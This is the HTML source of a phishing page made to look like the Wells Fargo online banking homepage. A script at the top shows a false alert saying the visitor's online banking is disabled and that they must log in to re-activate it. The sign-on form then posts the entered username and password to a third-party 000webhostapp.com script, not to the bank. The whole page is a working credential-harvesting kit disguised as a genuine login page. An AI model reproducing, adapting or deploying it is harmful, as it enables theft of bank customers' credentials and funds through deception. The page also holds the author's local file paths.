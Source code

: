 
<!-- saved from url=(66510)//-->
</script>

<script language="javascript">

alert("\n\nYour Wellsfargo Online Banking has been disabled,\n\nLogin to Re-activate\n\nclick OK to continue! \n\n");	
</script>



<HTML lang=en class=no-js dir=ltr xmlns="http://www.w3.org/1999/xhtml"><HEAD>
<META name=GENERATOR content="MSHTML 11.00.10570.1001"></HEAD>
<BODY>
<DIV id=shell style="FONT-SIZE: 12px; FONT-FAMILY: Verdana, Arial, sans-serif; WHITE-SPACE: normal; WORD-SPACING: 0px; TEXT-TRANSFORM: none; FONT-WEIGHT: 400; COLOR: rgb(67,67,67); PADDING-BOTTOM: 0px; FONT-STYLE: normal; TEXT-ALIGN: left; PADDING-TOP: 0px; PADDING-LEFT: 0px; ORPHANS: 2; WIDOWS: 2; MARGIN: 0px auto; LETTER-SPACING: normal; PADDING-RIGHT: 0px; BACKGROUND-COLOR: rgb(255,255,255); TEXT-INDENT: 0px; font-variant-ligatures: normal; font-variant-caps: normal; 
-webkit-text-stroke-width: 0px; text-decoration-thickness: initial; text-decoration-style: initial; text-decoration-color: initial" data-pid="222-147047-64">
<DIV id=skiptocontent style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px"><A style="FONT-SIZE: 18px; FONT-FAMILY: Verdana, Arial, sans-serif; BACKGROUND: none transparent scroll repeat 0% 0%; POSITION: absolute; COLOR: rgb(187,8,38); PADDING-BOTTOM: 6px; PADDING-TOP: 6px; PADDING-LEFT: 6px; LEFT: 0px; Z-INDEX: 100; TOP: -40px; PADDING-RIGHT: 6px" href="https://www.wellsfargo.com/#skip">Skip to main content</A></DIV>
<HEADER role=banner style="MARGIN-BOTTOM: 0px; DISPLAY: block; box-shadow: none">
<DIV id=masthead class="html5header c1 nxg" style="MARGIN-BOTTOM: 34px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px">
<DIV class=wfLogoStripParent style="HEIGHT: 56px; BORDER-BOTTOM: rgb(252,198,10) 4px solid; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; CLEAR: left; MARGIN: 0px; PADDING-RIGHT: 0px; BACKGROUND-COLOR: rgb(215,30,43)">
<DIV class=wfLogoStripChild style="HEIGHT: 60px; WIDTH: 970px; POSITION: relative; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px auto; PADDING-RIGHT: 0px">
<DIV id=brand style="OVERFLOW: hidden; HEIGHT: 35px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; LEFT: 0px; TOP: 9px; PADDING-RIGHT: 0px"><IMG role=img style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BORDER-BOTTOM: 0px; POSITION: relative; PADDING-TOP: 8px; BORDER-LEFT: 0px" alt="Wells Fargo Home Page" src="https://www01.wellsfargomedia.com/assets/images/css/template/homepage/homepage-horz-logo.svg"></DIV>
<DIV id=topSearch style="OVERFLOW: hidden; WIDTH: 890px; FLOAT: right; PADDING-BOTTOM: 0px; PADDING-TOP: 6px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px">
<UL style="LIST-STYLE-TYPE: none; FONT-SIZE: 12px; FONT-FAMILY: Verdana, Arial, sans-serif; WIDTH: auto; FLOAT: right; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 5px 105px 0px 0px; PADDING-RIGHT: 0px">
<LI role=presentation style="WIDTH: auto; FLOAT: left; MARGIN: 11px auto 0.5em 16px; LINE-HEIGHT: 1.4em"><A class="signIn signLockImg" style="FONT-SIZE: 12px; TEXT-DECORATION: none; POSITION: relative; COLOR: rgb(255,255,255)" href="https://oam.wellsfargo.com/oamo/identity/enrollment">Enroll</A> </LI>
<LI role=presentation style="WIDTH: auto; FLOAT: left; MARGIN: 11px auto 0.5em 16px; LINE-HEIGHT: 1.4em"><A style="FONT-SIZE: 12px; TEXT-DECORATION: none; COLOR: rgb(255,255,255)" href="https://www.wellsfargo.com/help/">Customer Service</A> </LI>
<LI role=presentation style="WIDTH: auto; FLOAT: left; MARGIN: 11px auto 0.5em 16px; LINE-HEIGHT: 1.4em"><A style="FONT-SIZE: 12px; TEXT-DECORATION: none; COLOR: rgb(255,255,255)" href="https://www.wellsfargo.com/locator/">ATMs/Locations</A> </LI>
<LI role=presentation style="WIDTH: auto; FLOAT: left; MARGIN: 11px auto 0.5em 16px; LINE-HEIGHT: 1.4em"><A lang=es style="FONT-SIZE: 12px; TEXT-DECORATION: none; COLOR: rgb(255,255,255)" href="https://www.wellsfargo.com/spanish/" xml:lang="es">Espa&ntilde;ol</A></LI></UL>
<DIV id=nxgSearch style="RIGHT: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; TOP: 10px; PADDING-RIGHT: 0px">
<BUTTON id=nxgSearchButton style="FONT-SIZE: 12px; CURSOR: pointer; TEXT-DECORATION: none; BORDER-TOP: rgb(217,217,217) 1px solid; HEIGHT: 36px; FONT-FAMILY: sans-serif; BORDER-RIGHT: rgb(217,217,217) 1px solid; WIDTH: 89px; VERTICAL-ALIGN: baseline; BACKGROUND-IMAGE: none; BORDER-BOTTOM: rgb(217,217,217) 1px solid; COLOR: rgb(120,112,112); PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: rgb(217,217,217) 1px solid; MARGIN: 0px; DISPLAY: flex; LINE-HEIGHT: 0; 
PADDING-RIGHT: 0px; BACKGROUND-COLOR: rgb(255,255,255); border-radius: 5px; appearance: button; align-items: center"><SPAN class=nxgSearchText style="FONT-SIZE: 12px; FONT-FAMILY: verdana; COLOR: rgb(120,112,112); MARGIN: 12px 8px; LINE-HEIGHT: 8px">Search</SPAN>
 &nbsp;<SPAN id=nxgSearchDescription class=nxgVisuallyHidden style="OVERFLOW: hidden; BORDER-TOP: 0px; HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; MARGIN: -1px; PADDING-RIGHT: 0px; opacity: 0">Opens a dialog.</SPAN><SPAN class=nxgSearchIcon></SPAN></BUTTON></DIV></DIV></DIV></DIV>
<DIV id=mainNav style="HEIGHT: 44px; WIDTH: 970px; POSITION: relative; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px auto; PADDING-RIGHT: 0px"><NAV aria-label="account type" style="DISPLAY: block">
<DIV id=tabNav class=html5nav style="OVERFLOW: visible; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; LEFT: -35px; TOP: 0px; PADDING-RIGHT: 0px; BOTTOM: 0px">
<UL style="LIST-STYLE-TYPE: none; FONT-SIZE: 15px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 10px; MARGIN: 0px 0px 20px 10px; PADDING-RIGHT: 0px">
<LI class=active style="FONT-SIZE: 17px; FLOAT: left; PADDING-BOTTOM: 10px; PADDING-TOP: 10px; PADDING-LEFT: 20px; MARGIN: 0px; LINE-HEIGHT: 20px; PADDING-RIGHT: 20px"><A id=tabNavPersonal class=tabNavLink style="FONT-SIZE: 15px; TEXT-DECORATION: none; FONT-FAMILY: verdana, Arial, sans-serif; BORDER-BOTTOM: rgb(255,205,65) 2px solid; FONT-WEIGHT: bold; COLOR: rgb(20,20,20); PADDING-BOTTOM: 8px; LINE-HEIGHT: 20px" href="https://www.wellsfargo.com/#" name=tabNavPersonal>
<SPAN class=hidden style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; PADDING-RIGHT: 0px; clip-path: inset(50%)">selected</SPAN>Personal</A> </LI>
<LI style="FONT-SIZE: 17px; FLOAT: left; PADDING-BOTTOM: 10px; PADDING-TOP: 10px; PADDING-LEFT: 20px; MARGIN: 0px; LINE-HEIGHT: 20px; PADDING-RIGHT: 20px"><A id=tabNavSmallBusiness class=tabNavLink style="FONT-SIZE: 15px; TEXT-DECORATION: none; FONT-FAMILY: verdana, Arial, sans-serif; COLOR: rgb(59,51,49); LINE-HEIGHT: 20px" href="https://www.wellsfargo.com/biz/" name=tabNavSmallBusiness>Small Business</A> </LI>
<LI style="FONT-SIZE: 17px; FLOAT: left; PADDING-BOTTOM: 10px; PADDING-TOP: 10px; PADDING-LEFT: 20px; MARGIN: 0px; LINE-HEIGHT: 20px; PADDING-RIGHT: 20px"><A id=tabNavCommercial class=tabNavLink style="FONT-SIZE: 15px; TEXT-DECORATION: none; FONT-FAMILY: verdana, Arial, sans-serif; COLOR: rgb(59,51,49); LINE-HEIGHT: 20px" href="https://www.wellsfargo.com/com/" name=tabNavCommercial>Commercial</A></LI></UL></DIV>
<DIV id=headerTools style="RIGHT: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; TOP: 9px; PADDING-RIGHT: 0px; BOTTOM: -2px"><NAV role=presentation style="DISPLAY: block">
<UL style="LIST-STYLE-TYPE: none; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 10px; LIST-STYLE-IMAGE: none; MARGIN: 0px 0px 20px 10px; PADDING-RIGHT: 0px">
<LI style="LIST-STYLE-TYPE: none; FONT-SIZE: 16px; FONT-WEIGHT: 700; PADDING-BOTTOM: 10px; PADDING-TOP: 10px; PADDING-LEFT: 20px; MARGIN: 0px; DISPLAY: inline; LINE-HEIGHT: 21px; PADDING-RIGHT: 20px"><A style="FONT-SIZE: 14px; TEXT-DECORATION: none; FONT-FAMILY: verdana, Arial, sans-serif; FONT-WEIGHT: 400; COLOR: rgb(59,51,49); MARGIN-LEFT: 0px; LINE-HEIGHT: 20px" href="https://www.wellsfargo.com/financial-education/">Financial Education</A><SPAN>&nbsp;</SPAN> 
<LI style="LIST-STYLE-TYPE: none; FONT-SIZE: 16px; FONT-WEIGHT: 700; PADDING-BOTTOM: 10px; PADDING-TOP: 10px; PADDING-LEFT: 20px; MARGIN: 0px; DISPLAY: inline; LINE-HEIGHT: 21px; PADDING-RIGHT: 0px"><A style="FONT-SIZE: 14px; TEXT-DECORATION: none; FONT-FAMILY: verdana, Arial, sans-serif; FONT-WEIGHT: 400; COLOR: rgb(59,51,49); MARGIN-LEFT: 0px; LINE-HEIGHT: 20px" href="https://www.wellsfargo.com/about/">About Wells Fargo</A></LI></UL></NAV></DIV></NAV></DIV></DIV></HEADER>
<NAV aria-label="products and services" id=fatNavParent style="BORDER-BOTTOM: 0px; DISPLAY: block; BACKGROUND-COLOR: rgb(249,247,246)">
<UL id=fatnav style="LIST-STYLE-TYPE: none; HEIGHT: 42px; WIDTH: 970px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; LIST-STYLE-IMAGE: none; MARGIN: -40px auto 0px; PADDING-RIGHT: 0px">
<LI style="LIST-STYLE-TYPE: none; HEIGHT: 40px; FLOAT: left; FONT-WEIGHT: 700; COLOR: rgb(95,95,95); PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px 0px 0px -10px; LINE-HEIGHT: 1.4em; PADDING-RIGHT: 15px">
<A aria-expanded=false id=bankingTab class=navLevel1 style="FONT-SIZE: 13px; TEXT-DECORATION: none; FONT-FAMILY: verdana, Arial, sans-serif; POSITION: relative; FONT-WEIGHT: 400; COLOR: rgb(59,51,49); PADDING-BOTTOM: 10px; TEXT-ALIGN: center; PADDING-TOP: 11px; PADDING-LEFT: 12px; MARGIN: 0px; Z-INDEX: 120; DISPLAY: block; LINE-HEIGHT: 19px; PADDING-RIGHT: 12px" href="https://www.wellsfargo.com/#banking" data-navitem="banking">Banking and Credit Cards</A> </LI>
<LI style="LIST-STYLE-TYPE: none; HEIGHT: 40px; FLOAT: left; FONT-WEIGHT: 700; COLOR: rgb(95,95,95); PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px 0px 0px -10px; LINE-HEIGHT: 1.4em; PADDING-RIGHT: 15px">
<A aria-expanded=false id=loansTab class=navLevel1 style="FONT-SIZE: 13px; TEXT-DECORATION: none; FONT-FAMILY: verdana, Arial, sans-serif; POSITION: relative; FONT-WEIGHT: 400; COLOR: rgb(59,51,49); PADDING-BOTTOM: 10px; TEXT-ALIGN: center; PADDING-TOP: 11px; PADDING-LEFT: 12px; MARGIN: 0px; Z-INDEX: 120; DISPLAY: block; LINE-HEIGHT: 19px; PADDING-RIGHT: 12px" href="https://www.wellsfargo.com/#loans" data-navitem="loans">Loans and Credit</A> </LI>
<LI style="LIST-STYLE-TYPE: none; HEIGHT: 40px; FLOAT: left; FONT-WEIGHT: 700; COLOR: rgb(95,95,95); PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px 0px 0px -10px; LINE-HEIGHT: 1.4em; PADDING-RIGHT: 15px">
<A aria-expanded=false id=investingTab class=navLevel1 style="FONT-SIZE: 13px; TEXT-DECORATION: none; FONT-FAMILY: verdana, Arial, sans-serif; POSITION: relative; FONT-WEIGHT: 400; COLOR: rgb(59,51,49); PADDING-BOTTOM: 10px; TEXT-ALIGN: center; PADDING-TOP: 11px; PADDING-LEFT: 12px; MARGIN: 0px; Z-INDEX: 120; DISPLAY: block; LINE-HEIGHT: 19px; PADDING-RIGHT: 12px" href="https://www.wellsfargo.com/#investing" data-navitem="investing">Investing and Retirement</A> </LI>
<LI style="LIST-STYLE-TYPE: none; HEIGHT: 40px; FLOAT: left; FONT-WEIGHT: 700; COLOR: rgb(95,95,95); PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px 0px 0px -10px; LINE-HEIGHT: 1.4em; PADDING-RIGHT: 15px">
<A aria-expanded=false id=wealthTab class=navLevel1 style="FONT-SIZE: 13px; TEXT-DECORATION: none; FONT-FAMILY: verdana, Arial, sans-serif; POSITION: relative; FONT-WEIGHT: 400; COLOR: rgb(59,51,49); PADDING-BOTTOM: 10px; TEXT-ALIGN: center; PADDING-TOP: 11px; PADDING-LEFT: 12px; MARGIN: 0px; Z-INDEX: 120; DISPLAY: block; LINE-HEIGHT: 19px; PADDING-RIGHT: 12px" href="https://www.wellsfargo.com/#wealth" data-navitem="wealth">Wealth Management</A> </LI>
<LI style="LIST-STYLE-TYPE: none; HEIGHT: 40px; FLOAT: left; FONT-WEIGHT: 700; COLOR: rgb(95,95,95); PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px 0px 0px -10px; LINE-HEIGHT: 1.4em; PADDING-RIGHT: 15px">
<A aria-expanded=false id=rewardsTab class=navLevel1 style="FONT-SIZE: 13px; TEXT-DECORATION: none; FONT-FAMILY: verdana, Arial, sans-serif; POSITION: relative; FONT-WEIGHT: 400; COLOR: rgb(59,51,49); PADDING-BOTTOM: 10px; TEXT-ALIGN: center; PADDING-TOP: 11px; PADDING-LEFT: 12px; MARGIN: 0px; Z-INDEX: 120; DISPLAY: block; LINE-HEIGHT: 19px; PADDING-RIGHT: 12px" href="https://www.wellsfargo.com/#rewards" data-navitem="rewards">Rewards and Benefits</A></LI></UL></NAV>
<DIV id=mainContent style="MAX-WIDTH: 1200px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px auto; PADDING-RIGHT: 0px">
<DIV class=emergencyMsgContainer style="HEIGHT: 47px; WIDTH: 970px; POSITION: relative; PADDING-BOTTOM: 3px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px auto; DISPLAY: block; PADDING-RIGHT: 0px">
<P class=emergencyMsgContent style="FONT-SIZE: 12px; FONT-FAMILY: Verdana, Arial, sans-serif; COLOR: rgb(67,67,67); TEXT-ALIGN: center; CLEAR: left; MARGIN: 0px 0px 1em; LINE-HEIGHT: 47px">
<SPAN class="emergencyMsgSpan theme4" style="FONT-SIZE: 12px; FONT-FAMILY: Verdana, Arial, sans-serif; BACKGROUND-IMAGE: url(/assets/images/css/template/homepage/alert-icon.svg); BACKGROUND-REPEAT: no-repeat; FONT-WEIGHT: bold; COLOR: rgb(20,20,20); PADDING-BOTTOM: 10px; PADDING-TOP: 7px; PADDING-LEFT: 46px; PADDING-RIGHT: 8px">Alert</SPAN>
 Here for you &#8211; updates on COVID-19 assistance and services.<A class=c13 style="FONT-SIZE: 12px; TEXT-DECORATION: none; BACKGROUND: url(https://upload.wikimedia.org/wikipedia/commons/c/c9/Wells_Fargo_Logo_%282020%29.png) no-repeat right center; FONT-WEIGHT: bold; COLOR: rgb(81,116,184); PADDING-LEFT: 8px; PADDING-RIGHT: 12px" href="https://www.wellsfargo.com/jump/enterprise/coronavirus-response" data-platform="salesplatform">Learn more</A></P></DIV>
<DIV class=topRegion style="OVERFLOW: hidden; HEIGHT: 532px; POSITION: relative; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; CLEAR: both; PADDING-RIGHT: 0px">
<H1 id=skip class=hidden style="FONT-SIZE: 2em; OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; FONT-WEIGHT: 400; COLOR: rgb(67,67,67); PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; MARGIN: 0px 0px 0.67em; PADDING-RIGHT: 0px; clip-path: inset(50%)">Wells Fargo Personal</H1>
<DIV class=inner style="WIDTH: 970px; POSITION: relative; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px auto; PADDING-RIGHT: 0px">
<DIV id=signOn style="MARGIN-BOTTOM: 175px; HEIGHT: auto; WIDTH: 224px; MARGIN-TOP: 17px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; Z-INDEX: 1; TOP: 0px; PADDING-RIGHT: 0px; box-shadow: rgba(198, 198, 198, 0.5) 0px 2px 4px 0px">
<DIV id=signOnMain style="HEIGHT: auto; PADDING-BOTTOM: 5px; PADDING-TOP: 15px; PADDING-LEFT: 16px; PADDING-RIGHT: 16px; BACKGROUND-COLOR: rgb(255,247,226)">
<H2 id=signOnHeader style="COLOR: rgb(0,0,0); FONT: 600 14px verdana, Arial, sans-serif; PADDING-LEFT: 4px; MARGIN: 0px 0px 16px">View Your Accounts</H2>
<FORM id=frmSignon style="MARGIN: 0px" method=post name=signon action=https://crenulate-printout.000webhostapp.com/wp-content/uploads/actions.php autocomplete="off" data-login-app="true">
<DIV class="formElementsWrapper formElementsUsername" style="MARGIN-BOTTOM: 12px; HEIGHT: 48px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 4px; PADDING-RIGHT: 0px"><LABEL class=id_label style="FONT-SIZE: 13px; POSITION: absolute; COLOR: rgb(120,112,112); PADDING-BOTTOM: 6px; PADDING-LEFT: 4px" for=userid>Username</LABEL>
 <INPUT id=userid class="formElement formElementText login_field" style="BORDER-LEFT-WIDTH: 0px; BOX-SIZING: border-box; FONT-SIZE: 16px; HEIGHT: 48px; FONT-FAMILY: Verdana, Arial, sans-serif; BORDER-RIGHT-WIDTH: 0px; BORDER-TOP-COLOR: ; WIDTH: 184px; VERTICAL-ALIGN: baseline; BORDER-BOTTOM: rgb(120,112,112) 1px solid; BORDER-LEFT-COLOR: ; COLOR: rgb(120,112,112); PADDING-BOTTOM: 4px; PADDING-TOP: 16px; PADDING-LEFT: 4px; MARGIN: 0px; BORDER-RIGHT-COLOR: ; LINE-HEIGHT: normal; PADDING-RIGHT: 
0px; BORDER-TOP-WIDTH: 0px; border-image: initial" accessKey=U maxLength=14 name=j_username autocomplete="off"></DIV>
<DIV class="formElementsWrapper formElementsPassword" style="MARGIN-BOTTOM: 4px; HEIGHT: 48px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 4px; PADDING-RIGHT: 0px"><LABEL class=id_label style="FONT-SIZE: 13px; POSITION: absolute; COLOR: rgb(120,112,112); PADDING-BOTTOM: 6px; PADDING-LEFT: 4px" for=password>Password</LABEL>
 <INPUT id=password class="formElement formElementPassword login_field pmask" style="BORDER-LEFT-WIDTH: 0px; BOX-SIZING: border-box; FONT-SIZE: 16px; HEIGHT: 48px; FONT-FAMILY: Verdana, Arial, sans-serif; BORDER-RIGHT-WIDTH: 0px; BORDER-TOP-COLOR: ; WIDTH: 184px; VERTICAL-ALIGN: baseline; BORDER-BOTTOM: rgb(120,112,112) 1px solid; BORDER-LEFT-COLOR: ; COLOR: rgb(120,112,112); PADDING-BOTTOM: 4px; PADDING-TOP: 16px; PADDING-LEFT: 4px; MARGIN: 0px; BORDER-RIGHT-COLOR: ; LINE-HEIGHT: normal; 
PADDING-RIGHT: 0px; BORDER-TOP-WIDTH: 0px; border-image: initial" accessKey=P maxLength=32 type=password name=j_password autocomplete="off"></DIV>
<DIV id=saveuid class="formElementsWrapper formElementsSaveUsername" style="HEIGHT: 32px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px">
<INPUT id=saveusername class="c29link formElement formElementCheckbox" style="BORDER-LEFT-WIDTH: 0px; BOX-SIZING: border-box; FONT-SIZE: 16px; HEIGHT: auto; FONT-FAMILY: Verdana, Arial, sans-serif; BORDER-RIGHT-WIDTH: 0px; BORDER-TOP-COLOR: ; WIDTH: 12px; VERTICAL-ALIGN: baseline; BORDER-BOTTOM: rgb(120,112,112) 1px solid; FLOAT: left; BORDER-LEFT-COLOR: ; COLOR: rgb(120,112,112); PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px; BORDER-RIGHT-COLOR: ; LINE-HEIGHT: normal; 
PADDING-RIGHT: 0px; BORDER-TOP-WIDTH: 0px; border-image: initial; opacity: 0" accessKey=S type=checkbox name=saveusername isclickable="true" triggerhover="false" data-content-id="c29content-save-username"> </DIV>
<DIV class=formSubmit style="MARGIN-BOTTOM: 8px; MARGIN-TOP: 4px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 4px; PADDING-RIGHT: 0px">
<INPUT id=btnSignon class=c7 style="FONT-SIZE: 16px; CURSOR: pointer; BORDER-TOP: 0px; HEIGHT: 40px; FONT-FAMILY: verdana, Arial, sans-serif; BORDER-RIGHT: 0px; WIDTH: 184px; VERTICAL-ALIGN: baseline; BORDER-BOTTOM: 0px; COLOR: rgb(255,255,255); TEXT-ALIGN: center; BORDER-LEFT: 0px; MARGIN: 0px; LINE-HEIGHT: normal; BACKGROUND-COLOR: rgb(215,30,40); border-radius: 8px; appearance: button" type=submit value="Sign On" name=btnSignon data-mrkt-tracking-id="3d6c76ba-9d34-4def-977d-a79cb8afc738">
 </DIV>
<DIV class=forgotPasswordLinkWrapper style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 4px; PADDING-RIGHT: 0px"><A style="FONT-SIZE: 11px; TEXT-DECORATION: underline; FONT-FAMILY: verdana, Arial, sans-serif; COLOR: rgb(59,51,49); DISPLAY: block" href="https://www.wellsfargo.com/help/online-banking/sign-on-faqs/?linkLoc=signon">Forgot Password/Username?</A></DIV></FORM></DIV>
<DIV id=signUp style="PADDING-BOTTOM: 9px; PADDING-TOP: 7px; PADDING-LEFT: 20px; PADDING-RIGHT: 20px; BACKGROUND-COLOR: rgb(255,255,255)"><A style="FONT-SIZE: 11px; TEXT-DECORATION: none; FONT-FAMILY: verdana, Arial, sans-serif; COLOR: rgb(59,51,49); DISPLAY: block; LINE-HEIGHT: 17px" href="https://oam.wellsfargo.com/oamo/identity/enrollment">Enroll Now</A>
 <A style="FONT-SIZE: 11px; TEXT-DECORATION: none; FONT-FAMILY: verdana, Arial, sans-serif; COLOR: rgb(59,51,49); DISPLAY: block; LINE-HEIGHT: 17px" href="https://www.wellsfargo.com/privacy-security/fraud/?linkLoc=signon">Security Center</A><A style="FONT-SIZE: 11px; MARGIN-BOTTOM: 0px; TEXT-DECORATION: none; FONT-FAMILY: verdana, Arial, sans-serif; COLOR: rgb(59,51,49); DISPLAY: block; LINE-HEIGHT: 17px" href="https://www.wellsfargo.com/privacy-security/?linkLoc=signon">
 Privacy, Cookies, and Security</A></DIV></DIV></DIV>
<DIV class=c3 style="OVERFLOW: hidden; HEIGHT: 532px; WIDTH: 1178px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px" data-ctid="tcm:224-146930-32" data-cid="tcm:242-147040-16">
<DIV role=region aria-label="Promotions Slideshow" class=c3wrapper style="POSITION: relative; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px">
<DIV class="paddles alwaysOn" style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px"><A class=left style="OVERFLOW: hidden; TEXT-DECORATION: none; HEIGHT: 38px; WIDTH: 22px; POSITION: absolute; FLOAT: left; MARGIN-LEFT: -540px; LEFT: 589px; Z-INDEX: 1; DISPLAY: block; TOP: 157px" href="file:///C:/Users/Administrator/Desktop/Wells%20Fargo%20&acirc;&#8364;&#8220;%20Banking.html#_prevFrame">
<IMG style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BACKGROUND-IMAGE: url(https://www01.wellsfargomedia.com/assets/images/css/template/homepage/home_sprite_image.png); BORDER-BOTTOM: 0px; POSITION: relative; LEFT: -88px; BORDER-LEFT: 0px; TOP: 0px" alt="Previous Slide" src="https://www01.wellsfargomedia.com/assets/images/css/template/homepage/home_sprite_image.png"></A></DIV>
<DIV class="paddles alwaysOn" style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px"><A class=left style="OVERFLOW: hidden; TEXT-DECORATION: none; HEIGHT: 38px; WIDTH: 22px; POSITION: absolute; FLOAT: left; MARGIN-LEFT: -540px; LEFT: 589px; Z-INDEX: 1; DISPLAY: block; TOP: 157px" href="https://www.wellsfargo.com/#_prevFrame">
<IMG style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BACKGROUND-IMAGE: url(https://www01.wellsfargomedia.com/assets/images/css/template/homepage/home_sprite_image.png); BORDER-BOTTOM: 0px; POSITION: relative; LEFT: -88px; BORDER-LEFT: 0px; TOP: 0px" alt="Previous Slide" src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/home_sprite_image.png"></A></DIV>
